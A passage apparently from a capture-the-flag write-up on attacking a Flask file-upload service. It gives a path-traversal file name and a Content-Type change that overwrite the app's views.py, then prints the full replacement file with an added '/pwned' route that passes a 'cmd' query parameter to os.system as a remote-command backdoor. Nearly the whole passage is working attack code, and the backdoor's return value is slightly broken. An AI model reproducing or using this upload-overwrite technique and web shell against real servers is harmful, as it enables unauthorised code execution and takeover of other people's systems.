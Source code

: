 ```
filename="..//app/app/views.py"
```

- Change the POST request `Content-Type`:

```
Content-Type: text/x-python
```

- Append a backdoor route into `/app/app/views.py`, and forward that POST request:

```py
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

# Backdoor route, using 'cmd' GET parameter to execute command. Just like PHP's <?php system($_GET['cmd']) ?>
@app.route('/pwned')
def backdoor():
    return os.system(request.args.get('cmd'))
```
